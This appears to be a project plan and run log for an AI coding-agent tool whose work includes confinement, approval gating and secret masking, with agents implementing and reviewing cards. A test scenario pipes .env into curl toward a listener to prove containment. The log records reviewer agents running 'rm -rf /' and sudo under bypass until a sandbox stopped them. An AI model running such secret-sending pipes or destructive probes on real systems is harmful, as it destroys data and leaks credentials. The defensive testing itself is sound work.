**Reuse:** T10's containment: `Escalation` ruling `contained:`, `Profiles#contained` (`confine/profiles.rb:158`), the call's disclosure, `Uncontainable` and `UNCONTAINED_TOLD`
**Shared-file wiring:** none
**Reachable from:** `Confine::Profiles#for` reads `request.ruling`; every allow reaches it

User ruling 2026-11-13: an allow by the judge, a rule, a remembered allow or `bypass` of a call whose disclosure says it reads secrets runs contained, the same as a human's plain `y`. Only a human's `network` answer runs such a call with network. A build grant keeps its own ports, as T10 left it.

**Acceptance criteria**

```gherkin
Scenario: a judge's allow of a secret-bearing call runs contained
  Given a project holding .env with a token and a loopback listener
  When the judge allows cat .env | curl -d @- to the listener under --confine reader
  Then the call runs contained, and the listener receives 0 bytes

Scenario: a rule's, a remembered allow's and bypass's allow run contained too
  Given the same call
  When a rule, a remembered allow or bypass allows it
  Then each run is contained, and the listener receives 0 bytes

Scenario: an ordinary call is untouched
  Given the call cat README.md
  When the judge allows it
  Then it runs as before, with no containment

Scenario: a box that cannot contain refuses an automatic allow
  Given a box without a private network
  When the judge allows a secret-bearing call
  Then it is not run, and the result says lain cannot run it contained
```
Spec file: `spec/lain/confine/profiles_spec.rb`, plus the seam `spec/lain/seams/contained_approval_spec.rb`

**Stop and report if:**
- An automatic allow's ruling cannot see the call's disclosure without new wiring through `cli/wiring/`: report the diff.
- Under `--confine workspace` the answer differs from reader in a way the ruling above does not settle: report it.

## Integration checks

1. **After T16 lands, before the user's next epic command:**
   - Write the throwaway rewrite under the session scratchpad, never under `lib/`. It turns old `approved:` gate records into `verdict`, and `policy deferred` with `verdict deny` into `verdict deferred`.
   - It must make a backup beside each file, rename atomically, re-link a chained journal and refuse a file a live session holds open, per memory `old-records-rewrite-not-refuse.md`.
   - Run it on a copy first, then show the user the counts. Run it on the 5 files in `~/.local/state/lain/sessions/9d832bf6a4ad/` only with the user's go-ahead.
2. After the last card: `bundle exec rake pspec` alone on a quiet box, comparing the example COUNT to the baseline; `bundle exec rubocop`; `bundle exec yard-lint`; `bundle exec rake core:build`, then from `apps/lain-remote`: `cargo fmt --check && cargo clippy --all-targets -- -D warnings && LAIN_REMOTE_REQUIRE_RELAY=1 cargo test` (for T25; the root workspace excludes the app, `Cargo.toml:9`); `bin/zeitwerk-census --check`; `bin/hot-path-bench --check` (T1, T2, T9 and T11 touch the bash path).
3. `planning/qa/scenarios/` gains or updates the steps for every behaviour that changed, per memory `qa-scenarios-track-features.md`:
   - `secret-boundary` and `shell-term-approval` for T8 to T10;
   - `bash-confinement` for T4 and T6;
   - `epic-tier` for T17 to T24;
   - `remote-phone` for T25;
   - `herdr` for T34;
   - `cockpit-surfaces` for T31, T32 and T35;
   - `todos-drain` for T40 and T41;
   - `subagents-and-backends` for T42.
4. **Manual pass owed by the user:** a QA round 30 over those scenarios, at the default `auto` on a quiet box. This also gives the approval split by rule, judge and human that round 29 could not measure.

## Execution log

### Setup, 2026-11-11 12:24

- Base: `main` at `775b04a9`. 83 worktrees and 96 branches from earlier plans exist (`card/T<id>`, `card/BD` and others); this run uses the prefix `r29-`: worktrees `tmp/worktrees/r29-T<id>`, branches `card/r29-T<id>`. Start lists: `~/tmp/lain/claude-1000/-home-tara-dev-lain/404b67f2-4fc0-4764-9fa7-d72b0e0156cb/scratchpad/r29/start-*.txt`.
- User work: 13 modified tracked files and many untracked ones stay in the tree, unstaged. 3 staged entries were unstaged for the run. Re-stage at close-out: `git add .gitmodules references/repos/cliffcompaction references/repos/pi`.
- Hook (`.pre-commit-config.yaml`): `rake compile check` (compile, then `pspec` and `rubocop` together) on any Ruby or Rust outside `apps/` and `crates/lain-core/`; `yard-lint --staged`; `bin/lint-gherkin-docs` on staged plan docs; pre-commit-hooks whitespace and EOF fixers; shellcheck; cargo fmt, clippy and test on Rust; the `apps/lain-remote` cargo trio on the app (T25); `bin/lint-commit-msg` at commit-msg. A Ruby commit takes about 2.5 minutes. `pspec` takes the suite lock in `$XDG_STATE_HOME/lain/locks/suite.lock`, so it never runs beside another pspec. A passing hook prints no count: read `tmp/parallel_runtime_rspec.log` or rerun with the hook output kept in a per-card log.
- Agent checks on own paths: `bundle exec rubocop <files>`, `bundle exec yard-lint <files>`, `bin/lint-gherkin-docs <plan docs>`, `bin/lint-commit-msg <msg file>`.
- Ratchet specs: every `spec/*_spec.rb` (the top-level discipline specs, including `gate_decision_fold_discipline_spec.rb`, `output_discipline_spec.rb`, `zeitwerk_spec.rb`, `lain_spec.rb`, `value_object_shareability_spec.rb`, `provider_construction_discipline_spec.rb`), plus `spec/lain/comment_census_spec.rb`, `spec/lain/isolation/checkout_calls_spec.rb`, `spec/lain/landing_calls_spec.rb`, `spec/lain/event_log/guards_spec.rb`, `spec/lain/test_layout/guard_spec.rb`, `spec/lain/boot/frozen_load_path_spec.rb`.
- Build outputs a fresh worktree needs, copied at cut: `lib/lain/lain.so`, `target/release/lain-fence`, `tmp/parallel_runtime_rspec.log`. Without the fence the confinement seam examples pend or go red.
- Test-runner pattern for `wait-quiet.sh`: `rspec|parallel_rspec|rake (pspec|check|compile)|cargo (test|build|clippy)`.
- Concurrency: 15 GB RAM, 16 cores: at most 6 agents, 5 while a landing runs.
- Paths needing user approval: none named; Integration check 1 touches the user's live session files only with their go-ahead.

### Run log

- 12:25 T2, T16, T26, T31, T14, T29 started (cut at 242aef7a)
- 12:28 T29 implemented; review started
- 12:28 T2 implemented; review started
- 12:30 T26 implemented; review started
- 12:34 T2 approved after mechanical fix
- 12:35 T31, T14 implemented; reviews held until the landings finish
- 12:39 T29 landed 2dc9bc1b
- baseline: tmp/parallel_runtime_rspec.log names 1336 spec files after each landing (completeness check, since a passing hook prints no count)
- 12:42 T2 landed db77f49e
- 12:43 T29, T2 worktrees removed; T1, T30 started (cut at db77f49e); T31 review and T26 second review started; T14 sent back: its wiring line breaks Wiring's ClassLength ceiling
- 12:43 T16 scope widened by the main session: + epic/gate.rb, epic/gate/policy.rb and 7 specs, so the deferred policy writes Deferred at the source and GateDecision.new keeps no policy check
- 12:44 T30 scope widened: + compaction/boundary.rb, derivation.rb, source/derived.rb, source/held_cut.rb and specs, a lead: argument so the one keep rule counts the next prompt
- 12:44 T1 scope widened: + shell/stages.rb, shell/reading.rb, confine_to_scope.rb, remembered denials, sensitivity/policy.rb and specs; parked/queue.rb parses stay for T9
- 12:44 T26 approved on second review; T14 revised wiring applied in its worktree
- 12:48 T26 landed 52c2e728
- 12:48 T26 landed 52c2e728 (1337 files); T27 started; T14 review started
- 12:49 T27 scope widened: + cli/backend/tier.rb and tier_spec (an arm on Tier for --summarizer-provider); Tier#ask stays for T28
- 12:49 T31 review APPROVE-WITH-FIXES (substantive: is_a? pump check); fix round, scope + repl_spec.rb, command/registry.rb
- 12:51 T16 + epic_queue_spec.rb, epic_land_spec.rb; standing rule: deny-to-deferred fixture-only spec edits join without stopping
- 12:53 T16 green on its wide set; wiring applied; review started
- 12:57 T30 + compaction/head.rb, spec/lain/bench/session_spec.rb (idle commits advance)
- 12:58 T27 implemented (+ seams/free_summarizer_spec.rb); review started
- 12:59 T1 implemented (7 parses to 1); + approval/judged.rb so the judge's facts read the carried parse; park-time parses (queue.rb, path_gate.rb) left for T9
- 12:59 T14 review REQUEST-CHANGES: plan-scope quit crashes on PlanSpike arity in the real binary; fix round, scope + board_build.rb, isolation/scratch.rb, conductor_spec.rb
- 13:02 T1 judged path in; review started
- 13:02 T27 review APPROVE-WITH-FIXES (substantive: unguarded /model re-read, ivar writes into Oracle::Model); fix round, scope + oracle/model.rb
- 13:03 T16 review APPROVE-WITH-FIXES; fix round incl. item 10 (interrupted gate under deferred policy must park, not settle a deny)
- 13:04 T30 review APPROVE-WITH-FIXES (4 unguarded lead threads, lost collapse coverage); fix round
- 13:06 T27 second review APPROVE-WITH-FIXES (mechanical); T13 started
- 13:09 T14 fix round done (real binary quits clean); ruling: non-git plan scratch is discarded at quit like an uncommitted spike
- 13:09 T27 approved after mechanical fixes
- 13:47 T1 review 1: APPROVE-WITH-FIXES (8 items, 2 substantive); fix round sent. Reviewer probe ran rm -rf / under bypass (stopped by --preserve-root); surfaced to user.
- 13:50 T27 landed 2acff812
- 13:51 T27 landed 2acff812 (runtime log 1337 lines, status unchanged)
- 13:52 T30, T31 second reviews started; T16 fix round done, doc diffs applied, second review started
- 14:01 T30 landed a67970bf
- 14:01 T30 landed a67970bf
- 14:01 T28 started (impl a2ba1f6a2221c4cdf, opus); T13 review started (ab5afaae3a7717df4, opus, high)
- 14:02 T14 fix round done (non-git scratch discarded at quit); second review started
- 14:02 T1 fix round done (7117 ex, 0 fail); second review started with harmless-probe rule
- 14:03 T28 stopped (scope); ruled: widen to backend.rb, judge_source.rb, judge_spec.rb; Tier journals to backend.journal; StatusFeed counts tier TurnUsage as dollars only. Resumed.
- 14:12 T14 review 2: APPROVE-WITH-FIXES (mechanical: honest rm_r, 2 scratch_spec examples, origin.path, @return)
- 14:13 T1 review 2: APPROVE-WITH-FIXES (2 nits: spec rename, Decision parse: required); sent to implementer
- 14:14 T16 review 2: APPROVE-WITH-FIXES (adjudicator interrupted examples + 2 nits)
- 14:15 T13 review 1: APPROVE-WITH-FIXES, 1 substantive (nix/hf name segments unjudged = new false negatives); fix round; follow-ups: key-width hex in slashed token (predates), dotted hf names, docker paths
- 14:16 T31 review 2 APPROVE, landing. T14 final fixes done (1189 ex 0 fail), T1 nits done (7119 ex 0 fail); both queued to land after T31
- 14:19 T31 landed 77bb9436
- 14:21 T14 landed 4e3aef62
- 14:21 T31 landed 77bb9436 (runtime log 1338; first & launch did land; second launch failed harmlessly on no-diff new file)
- 14:29 T1 landing 1 red: subagent_spec 'keeps the ceiling message and the last text block when the lists are huge' STUCK 30.8s at load 25.7; alone green 10.7s; base 3/3 green seed 1136; REPEAT of 2026-11-10 entry -> F-card at plan end; relanding
- 14:29 T28 built; ruled: extract Backend attachment collaborator (no ceiling raise); nvim views skip non-agent? turn_usage via existing predicate
- 14:34 T1 landing 2 red: same subagent_spec:758 STUCK 30.3s at load 28.7 (droste --root ~4 cores beside the hook). Timing alone: main 9.5-9.9s, T1 10.2-10.5s (not caused by T1). F1 card: drive :758 through Answer's cut, not 5000 real greps. Reland 3 at load 6.6 with T16 chained. T16 round 2 done.
- 14:39 T1 landed d8cf9d35
- 14:40 T1 landed d8cf9d35 (reland 3, load low). T16 land failed in land.sh on D path; main restored; land.sh fixed
- 14:45 T16 landed 8e62213a
- 14:45 T16 landed 8e62213a (runtime log 1338; deleted 1 spec, added 1)
- Follow-ups from the T13 review, not cards yet: a key-width hex segment in a slashed token flags only when the whole token clears 4.2 bits (predates); dotted huggingface repo names (`Qwen2.5-7B`, `Llama-3.1-8B`) still flag; docker `containers/`, `layerdb/sha256/`, `overlay2/l/` and huggingface `blobs/` paths still flag. From T16: an interrupted park under the deferred policy journals no deferred `awaiting_human`, so the queue question reads "not recoverable".
- 14:47 plan log committed da872d7d (F1 added). F1 (sonnet), T17 (opus), T8 (opus) started at da872d7d; T13 second review started; IC1 rewrite dry-run agent started (copy only)
- 14:48 F1 done (9.10s -> 1.05s CPU), review started. T17 stopped (epic plan address = Graph#digest); ruled: widen to submission.rb + submission_spec; plan reviews bind structural; holds into Ledger in scope. Resumed.
- 14:49 T28 done (Backend::Attachment extracted, 3 nvim views skip non-agent turn_usage; 9508 ex 0 fail); wiring applied (566, 665, 924), lint clean; review started (opus, high)
- 14:50 IC1 dry run on a copy: 6 files, 40 gate records rewritten (29 approve, 11 deny), 0 deferred; second run no-op; all readable after. 1 file held open by pid 1812006 (8 days, /home/tara/w/ir). Asked the user.
- 14:53 F1 landed fcd4e6d9
- 14:53 F1 landed fcd4e6d9
- 14:53 T3 (opus) and T5 (opus) started at fcd4e6d9
- 14:55 T13 review 2: APPROVE-WITH-FIXES (mechanical: move 2 dead regions rows to predictable?, pin the live 16 cap, delete dead -init, cheaper addressed_at?)
- 14:59 T8 done (366/0 card, 5912/0 wide; stop at escalation_spec:278 cleared with evidence; file_digests deleted, verbatim in hand-back for T9); review started
- 15:26 T28 review: REQUEST-CHANGES. BLOCKER: JournalMemoryRoot pairs tier turn_usage with memory_root on a request digest -> MemoryReplay Corrupt on resume. + 3 should-fix, nits. Ruling: child tier spend charged run-wide (state it). Follow-up: HUD vs Tier pricing time at off-peak boundary. Fix round sent. T5 done, review held for T13 landing.
- 15:34 T13 landing 1: wait-quiet timed out after 1800s with 1 matching process at load 0.11 (likely the T28 reviewer's stuck probe, since killed); main untouched; relanding
- 15:37 T13 landed d8ae6d8a
- 15:37 T13 landed d8ae6d8a
- 15:37 T5 review started (opus, high, live confine reader drive); T7 started (sonnet) at d8ae6d8a
- 15:38 T17 built (GateView, Signoff#view, holds in Ledger, structural_digest; 3718/0 wide); stopped on boundary fix needing 3 specs; ruled: apply FRESH = research + epic_plan, widen to policy_spec, epic_submit_spec, epic_queue_spec
- 15:45 T28 fix round done (blocker fixed with resume spec; 10051 ex 0 fail); second review started. T17 widened to epic_queue.rb (Advances before ensure_open! keeps MissingEpicDocument)
- 15:46 T8 review APPROVE (no leak; real drive: HEAD sent both secrets raw, T8 masks; 1 parse). Nits sent. For T9: 2 deleted specs (scan reads at most cap+1 bytes; non-UTF-8 file neither raises nor releases) belong with its Disclosure. Follow-up: live pane masks a read_file-released value the model sees raw, placeholder numbers differ (predates). land-wrap pattern anchored to the executable.
- 15:47 T17 done (epic_queue swap; 3739/0 wide); ARCHITECTURE wiring applied; review started
- 15:49 T3 done (246/9 red, 4767/0 wide; safe-assignment allowlist; quoted heredoc only alone on its line); review started
- 15:49 T8 nits done (857/0); QA line applied; landing
- 15:55 T8 landed 27f42581
- 15:55 T8 landed 27f42581
- 15:55 T9 started (opus) at 27f42581
- 15:57 T5 review REQUEST-CHANGES: BLOCKER partial-clone lazy fetch (uploadpack) runs under ownership; fix round sent (refuse partialclone/promisor/uploadpack/receivepack/vcs + protocol/url; own only non-fresh). Scenario 3 row-naming handed to T9. NEW F2: lain's own launch git rev-list lazily fetches -> runs repo-named program with no approval, live on main in every confine mode; card added.
- 16:00 T7 partial (3 of 4 scenarios; '1 error outside examples' untraced); ruled: trace the error first; target nil vs raise with callers converted (handback update_ref keeps create-only); landed_flags + drain_spec double; reaching reads 129 as none; + local_branch_spec
- 16:01 T28 review 2 APPROVE (blocker fixed; real binary judged call then resume ok); landing. Follow-up: HUD vs ceiling pricing moment at off-peak edge.
- 16:01 T3 review REQUEST-CHANGES: BLOCKER heredoc end-line mismatch hides commands (6 variants); BLOCKER safe prefix makes export/declare/unset... plain; + tilde in assignment, Result defaults, scenario 3 spec. Fix round sent. Real data: 1,084 of 26,325 commands become readable, 0 regress. Follow-up: leading redirect becomes argv[0] (predates).
- 16:06 T28 landing 1 red: summarizer_spec:63 expects [RequestSent, OracleAnswer], now has TurnUsage between (card-caused, deterministic). Sent back to implementer.
- 16:06 T17 review REQUEST-CHANGES: BLOCKER superseded parked drafts block an approved newer attempt (real land: HEAD lands, worktree refuses with dead-end remedy); + held-attempt remedy, false graph comment, QA 14d, denied? fold. Combine law held over 18,000 random sessions. Fix round sent. Follow-up: planning_view and cli/epic precedence (their own cards).
- 16:07 T5 fix round done (3288/0; lazy fetch refused, fresh run file not owned); second review started
- 16:11 T28 summarizer_spec updated (8118 ex 0 fail over 199 files); relanding
- 16:12 T5 review 2 APPROVE-WITH-FIXES: all 13 config vectors refused, no marker; nit only. Follow-up: freshness gate covers hooks too, so pre-commit install sends every git read to the judge for the lineage (loosening deferred). T17 fix round done (3741/0; probe B lands); second review after T28 lands.
- 16:16 T28 landed 643be0df
- 16:16 T28 landed 643be0df
- 16:17 T17 and T3 second reviews started; F2 cut at 643be0df
- 16:17 T9 stopped (3): ruled: rung's sealed-content check stays separate, 'scanned once' = 1 Disclosure per call; widen to tool_guard.rb + approval_replay_spec + fixture (no live disk in replay); keep Approval::Disclosure, qualify names in deletability_spec; measure ParsedCommand cost since bench skips the middleware
- 16:18 T5 nit done (818/0); landing
- 16:25 T5 landed 83502666
- 16:25 T5 landed 83502666
- 16:25 T32 started (sonnet) at 83502666
- 16:26 T7 done (8787/0 over 212 files; target nil vs raise, ~20 callers; reaching reads 129; failed-diff spec has no red); review started
- 16:28 T3 review 2 APPROVE-WITH-FIXES (lone-backslash heredoc case unpinned; comment). 328-case brute force: 0 smuggles. NEW F3 (predates): hash -p and enable -f let a later stage run a program the reader does not see. Follow-up: leading redirect becomes argv[0]; BASH_ENV in journal/grant (nit).
- 16:28 T17 review 2 APPROVE-WITH-FIXES (superseded survives a deny; 2 nits). Real land A-E right; combine law over 20,000 sessions.
- 16:30 T3 final fixes done (1159/0); landing
- 16:35 T9 done under rulings (6786/0); cost: cat 1 MiB adds up to 259 ms (detector, worst content). Ruled: lazy memoized disclosure, so rule-approved calls pay nothing; cap stays 1 MiB. T32 done (exact =lain: targets); review after T3 lands.
- 16:36 T3 landed e69906e3
- 16:36 T3 landed e69906e3
- 16:37 T17 final fix done (3747/0); landing
- 16:42 T17 landed aa38c532
- 16:42 T17 landed aa38c532
- 16:42 T32 review started; T18, T22 started at aa38c532
- 16:43 F2 done (11 spawn sites, NO_LAZY_FETCH in the shared scrub + 3 own-env sites; history scan --missing=allow-any; 64/0 after fix); review started
- 16:43 T32 review APPROVE (nits: duplicated target helper; FleetWindows session target plain, out of scope); landing
- 16:44 T7 review REQUEST-CHANGES: BLOCKER remarked(nil) NoMethodError crashes the driver delete batch; + update_ref nil guard tested at 1 of 4 sites (ruled: structural guard in update_ref), exit 129 not specific (ruled: cat-file -e first), 4 untested rescues, 7 unchecked stdout reads, discarded rescue. Fix round sent.
- 16:50 T32 landed 98051ce8
- 16:51 T32 landed 98051ce8. T22 done (1076/0); review next.
- 16:51 T22 review and T33 started at 98051ce8
- 16:52 T9 lazy disclosure done (6788/0; rule-approved 1 MiB cat 0.12-0.14 ms, parked 33-256 ms); review started
- 16:53 T22 review REQUEST-CHANGES: BLOCKER inbound Blocked-by change missed (Issue equality); + merge/related/inbound/denied specs. Fix round sent. held_gate stays for T19.
- 16:55 T18 done (110/0 card, 834/0 wide; held read through Signoff#view); review started
- 16:55 T22 fix round done (IssueView#digest compare; 1080/0); second review started
- 16:56 T18 review APPROVE-WITH-FIXES (dead view filter -> read held from view alone; shared reader; headline spec; QA :585). Follow-up: phone Hold journals nothing, so a phone-held gate is asked again on the phone.
- 16:57 T33 built (2145/0) but unwired; sent back to wire through Wiring/Surface itself (ClassLength guard), chat_flags [] ruled (forks keep today's no --nvim/--windows/--input; open UX question), + /fork --root and /clear no --prompt specs
- 16:57 F2 review REQUEST-CHANGES: BLOCKER lazy-fetch stop fired (blobless clone: epic lease from fetched main and git diff feat main now exit 128) -> asked user. Fix round part 1 sent (git-only constant, wider ratchet, Checkout example, comment, version floor 2.44 doc). KEYS already on main via T5.
- 16:57 T22 review 2 APPROVE; landing
- 17:01 T22 landed 3305f9e6
- 17:01 T22 landed 3305f9e6
- 17:01 T19 started at 3305f9e6
- 17:01 T18 final fixes done (2356/0); landing
- 17:02 T19 stopped (held_gate precedence); ruled: split/merge refuses on phase parked, held, approved; edited/gone no longer refused (approval already stale); current: from before-graph IssueView digest
- 17:13 T18 landing 1 red: subagent_concurrency_spec:100 'gathers every result into ONE user message...' completion order go-2,go-3,go-1; alone green, base 3/3 green seed 58434; REPEAT (traps list, twice) -> F4 card. Relanding. T33 wiring done; T7 fix round done.
- 17:17 T18 landed 9a6ee436
- 17:17 T18 landed 9a6ee436
- 17:18 T7 second review, T33 review, T21 started at 9a6ee436
- 17:19 T21 stopped (Reopen.stale? vs phase disagree when a draft waits); ruled (b): GateView#stale? named reader used by :edited and Reopen; read via Signoff#view, not SignoffQueue; journaled.rb calls reopened after an epic write
- 17:19 T19 done except planning view (1324/0); deviations accepted (artifact_digest current; real digests); sent back to wire status_view and add a plan row (scenario needs it)
- 17:20 F2 fix round 1 done (9664/0; GIT_SPAWN_ENV git-only; ratchet drives all 11 sites; README floor), held for user ruling. T12 started (opus) at 9a6ee436
- 17:20 T9 review APPROVE-WITH-FIXES (substantive: bulk reads not secret-bearing; scan 3.1 s worst). Real drive: row names .env 1 region + 127.0.0.1. Fix round sent (NUL deny, cwd naming, unscanned reads unnameable, cap 256 KiB + region ceiling, cap spec, git URL token strip, etc.). NEW card F5: name untrusted run files (hooks) on the approval row (30-50 lines, carry the resolver on the context).
- 17:23 T19 done incl. planning view (51/0 card; wide re-run owed after 1 fixture fix); review started
17:24 T21 review started
17:25 T7 second review APPROVE-WITH-FIXES (3 mechanical: factory dirty uses out, Anchors#judge rescue example, factory earlier failure example); fix round 2 sent, lands with no re-review
17:25 T33 review APPROVE-WITH-FIXES: btw example, WATCH_ARGV ref, unclosed-hint example (mechanical); api_base userinfo (ruled: argv keeps as typed, printed hints mask userinfo; substantive, second review)
17:28 T19 review REQUEST-CHANGES: implementation-stage digest raises in Roadmap::Checked (blocker); fix round sent, second review follows. Follow-up card F6: route Stage and Reopen through GateView#phase
17:28 T33 fix round 1 done (printable masks userinfo; 3 fixes without red); second review started. T7 fix round 2 done (881/0; Anchors rescue example no red, main session backs it out). T12 stop: consolidate_spec:567 added to card, per-occurrence slot numbering kept
17:29 T7 Anchors rescue backed out by main: gc_spec 70/1 red. T7 landing started
17:30 T21 review REQUEST-CHANGES: status-only rewrite reopens (Issue#digest hashes status; HELD for user), epic-write failure_note nil crash, N folds per write, partial reopen lost, no e2e example. Fix round sent for items 2-7
- 17:37 T7 landed 4ccd9ef7
17:49 T7 landed 4ccd9ef7. T19 fix round done -> second review. T12 done -> review (high). T33 review 2 APPROVE-WITH-FIXES (mechanical) -> fix round 2, lands after. T9 fix round done -> second review. T21 items 2-7 done; user ruled item 1: status out of plan gate digest + one-shot rekey script
17:53 T19 review 2 APPROVE-WITH-FIXES (mechanical: rename current->digest_now, graph-only gates_of, private artifact_digest, pin gate order, spec fake); fix round 2 sent, lands after
17:53 T21 item 1 done (plan_digest, rekey script) -> second review. T24 and T40 cut at 4ccd9ef7, started
17:56 T19 fix round 2 done; main backed out gate order: epic_spec 134/1 red. Landing
- 18:02 T19 landed 3c00012a
18:02 T19 landed 3c00012a. T33 fix round 2 done; main backed out LiveViews default: 25/1 red. T9 review 2 APPROVE (heads-up for T10: ls lib, find src, git push now secret-bearing, a y runs contained with no network; PEM straddle over-counts). Landing T33 then T9
18:06 T12 review REQUEST-CHANGES: secrets_of ignores the project sensitivity table (blocker); fix round sent; follow-up card F7: detached ToolGuard in improve/consolidate tool phase carries env values only
18:06 T21 review 2 REQUEST-CHANGES: rekey script resurrects a denied approval (blocker); lib APPROVE-WITH-FIXES. Ruled: rekey matches old-form at every status value. Fix round 3 sent; third review follows
18:08 T33 landing red (hook): herdr_surface_spec:256 builds FleetWindows without the now-required child_argv (card-caused, 34790 ex, 1 failure); main restored. Fix sent; landing T9
- 18:12 T9 landed e7305417
18:12 T9 landed e7305417 (runtime log 1341, +1 new spec file). Worktrees T7 T19 T9 removed
18:12 T4 and T35 cut at e7305417, started. T11 waits for T12 (shares text_mask.rb)
18:13 T33 fix round 3 done (herdr_surface_spec passes ChildArgv.bare). Relanding
18:14 T21 fix round 3 done -> third review (high, script-focused)
18:18 T33 reland red (hook-2): offload_spec 'keeps a sibling fiber running while the work holds its thread' (34854 ex, 1 failure, seed 29174). Already on toolchain-traps known list -> repeat -> card F8; running alone, then landing proceeds
18:21 offload flake green alone (seed 29174, 1/0): confirmed repeat -> F8. Relanding T33. T40 done (wiring applied by main: 4 member lists + 1 comment). T24 done
- 18:27 T33 landed ebea2fb1
18:28 T33 landed ebea2fb1
18:28 T21 review 3, T24 review, T40 review started. T34 cut at ebea2fb1, started
18:29 T4 done (writes_unread); ARCHITECTURE.md line applied by main
18:29 T4 review started. T12 fix round 1 done (BoardBuild policy, Untrusted raises, from_options specs, TextMask.transcript, Union) -> second review
18:33 T12 review 2 APPROVE-WITH-FIXES (mechanical: Regions.spellings public, Union calls it + tying spec; UTF-16 Union spec). Fix round 2 sent, lands after
18:36 T35 done (draft carried across a stopped read) -> review (high, real terminal)
18:38 T34 done; wiring applied (herdr_binding_spec drops root:, 14/0) -> review
18:39 T12 fix round 2 done (reds shown). Landing T12
18:39 T40 review REQUEST-CHANGES: .git gitdir file redirects the commit upstream (blocker). Ruled: LeaseCommit only under confine :workspace (the default). Fix round sent; second review follows
- 18:42 T12 landed 13d7e641
18:42 T12 landed 13d7e641
18:42 T34 review started. T11 cut at 13d7e641, started
18:46 T21 review 3: lib approved (1 mechanical spec fix, reopen_spec approve b); rekey script REQUEST-CHANGES (fold order by ts across files, failed-chain restore, lock all). Lib lands after spec fix; script gets 4th review before IC
18:48 INCIDENT T4 review: live model under bypass ran rm/sudo; sandbox blocked; verified unchanged. rbrief now forbids live-model drives; running reviewers warned
18:48 T4 review APPROVE-WITH-FIXES (mechanical round sent, lands after). New card F9: widen 'cannot read' (script files, build runners, patch/git apply, dir writes, & stages). Question to user: ruling 5 'asks' = notice or park? (code withdraws network silently)
18:49 User ruled: withdrawn build grant parks the build (F10). New cards F7-F10 drafted in new-cards.md
18:51 T4 fix round done (1088/0). Landing
18:52 T40 fix round 1 done (gitdir real dir, workspace-only, user git config, mutants). Second review queued after T4 lands
18:54 T21 round 4 done: lib spec fix red-proven; rekey script rebuilt (13 checks, 7 mutants). Landing T21 lib queued behind T4; script 4th review after
- 18:57 T4 landed 74e0d6c5
18:57 T4 landed 74e0d6c5
- 18:59 T21 landed 9c17416e
18:59 T21 landed 9c17416e (lib). T21 worktree kept for the script review
19:00 T21 script review 4 and T40 review 2 started. T37 cut at 9c17416e, started
19:01 T11 done -> review (high)
19:02 T24 review REQUEST-CHANGES: stop before the registry row lets the red step run (blocker); QA filing cancelled mid-write; cut unmarked branch. Fix round sent; second review follows
19:03 T37 done (no red for final design) -> review
19:03 T35 review REQUEST-CHANGES: plain-chat Ctrl-C keeps the draft (existing seam red; implementer never ran it). Real cockpit shows kept text (no UX defect). Fix round sent
19:05 T34 review REQUEST-CHANGES: watch.rb still passes root: (lain watch raises); typed api_base userinfo reaches herdr session.json, screen and bash_history. Fix round sent
19:08 T37 review APPROVE-WITH-FIXES (substantive: missing chain file crashes export; rewound-empty page publishes). Fix round sent; second review follows
19:10 T37 fix round done (38/5 red, then green) -> second review
19:11 T34 fix round done (2043/0; userinfo leaves resume out with a note) -> second review
19:12 T35 fix round done (Intake#interrupt discards; extra files intake.rb, input_socket.rb) -> second review
19:12 T24 fix round done (defer_stop on QA filing and cut; qa_gate.rb, working_branch.rb added) -> second review
19:13 T37 review 2 APPROVE (nit: errno regex, skipped). Landing
19:15 T40 review 2 REQUEST-CHANGES: sub/.git gitdir pointer still redirects upstream (blocker); user config includes; degraded sandbox. Ruled: gate on sandbox actually built; abstain on stray GIT_* env. Fix round 2 sent; third review follows (standing ruling)
- 19:18 T37 landed 03d221a4
19:18 T37 landed 03d221a4
19:19 T11 review REQUEST-CHANGES (all mechanical): opaque stage gets the lockfile exemption (leak of checksum-shaped values); 3 guard mutants; renames; ScanInput to own file. Fix round sent, lands after main back-out
19:22 Rekey script review 4 APPROVE-WITH-FIXES (substantive: all-or-nothing across files). Fix round 5 sent; reviewer re-checks
19:22 T36 cut at 03d221a4, started
19:22 T34 review 2 APPROVE (17 mutants red; herdr drives clean). Landing
19:23 T36 stop: settled record cannot reach the TTY from the card's files. Ruled B (TTY public offer method; tty.rb added to card)
19:25 T24 second reviewer looped on a refused hand-back; stopped by TaskStop. Fresh second reviewer spawned
- 19:26 T34 landed 65ff105c
19:26 T34 landed 65ff105c
19:29 Rekey script round 5 done (all-or-nothing, 22 checks) -> reviewer re-check
19:30 T35 second reviewer looped on a refused hand-back; stopped. Fresh second reviewer spawned
19:32 Rekey re-check REQUEST-CHANGES: INT/TERM skip rollback; no recovery path after SIGKILL. Round 6 sent (rollback on any exception, --restore mode)
19:32 T11 fix round done (opaque/env stages lose the exemption; reds shown). Landing
19:32 T40 fix round 2 done (5039/0) -> third review after T11 lands. T11 landing
- 19:37 T11 landed 4dcb85c5
19:37 T11 landed 4dcb85c5. T40 third review started
19:38 T10 and T42 cut at 4dcb85c5, started. T36 sent back: failed asks must announce; 2 seam doubles
19:40 T42 stop (scratch lease not git; spike cut by Kept). Card's remedy applied: keep the directory, resume through Kept; ChildStopped/Kept may join the card
19:41 T10 stop: needs toolset_build, board_build, switchboard, exec/sandboxed, telemetry/sandbox. Approved; board_build overlaps T40 (merge by patch, separate methods)
19:46 Rekey round 6 done (35 checks; rollback on any exception; --restore) -> fresh fifth review
19:47 T42 done (1363/0; restored researcher reopens through Kept) -> review. New card F11: nothing reaps kept research dirs or spike branches
19:47 T36 done (4310/0; failed asks ring, human stop silent) -> review
19:50 T24 review 2 REQUEST-CHANGES: Asking's poll sends a second stop, cutting QA filing (5 of 20). Fix round 2 sent; third review follows
19:53 T24 fix round 2 done (Asking stops once; probe 0 of 40) -> fresh third review
19:55 T40 review 3 APPROVE-WITH-FIXES (no blocker). Ruled: GIT_* judged on the child env (ChildEnv applied), lain's editorless pair admitted; includes via git config --show-origin; .git internal links abstain. Fix round 3 sent; a focused fourth review of the substantive items follows
19:56 T36 review REQUEST-CHANGES: settled line races the reply (lands above it). Fix round sent (announce after render_response; failed notice wording); second review follows
19:56 T35 review 2 APPROVE-WITH-FIXES (mechanical; Reline state pollution reds suite at random, double carry). Fix round 2 sent; main re-checks order/seeds before landing. New card F12: status header duplicated after a cockpit Ctrl-C (predates T35; stray blank row from the withdrawn command> read)
20:00 Rekey review 5 REQUEST-CHANGES (partial backup on interrupt; --restore drops later records). Ruled: simplify: backups in a separate --backup-dir verified before staging; delete --restore; manual recovery commands printed. Round 7 sent
